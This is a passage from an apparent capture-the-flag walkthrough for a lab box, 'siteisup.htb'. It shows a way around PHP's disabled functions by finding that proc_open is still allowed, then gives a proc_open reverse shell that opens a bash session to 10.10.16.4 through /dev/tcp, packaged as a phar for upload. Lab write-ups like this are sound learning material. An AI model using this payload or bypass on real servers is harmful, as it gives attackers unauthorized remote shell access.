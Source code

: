 - There is a list of disabled functions
  - `system,exec,shell_exec` are among them

![](./images/12.png)

- We can use [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) to find which functions can be abused
```
<SNIP>
if(args.url):
    url = args.url
    headers = { "Special-dev" : "only4dev" }
    phpinfo = requests.get(url, headers=headers).text
<SNIP>
```

- Now if we run it, we see that [proc_open](https://www.php.net/manual/en/function.proc-open.php) is not disabled
  - `similar to popen() but provides a much greater degree of control over the program execution.`
```
└─$ python2.7 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/efeb2ab6345825563a2b00316e3b4ce9/test.phar/test
<SNIP>     

Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

- We can find reverse shell in this [repo](https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7)
```
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```
```
└─$ zip rev.phar rev.php  
  adding: rev.php (deflated 38%) 
```
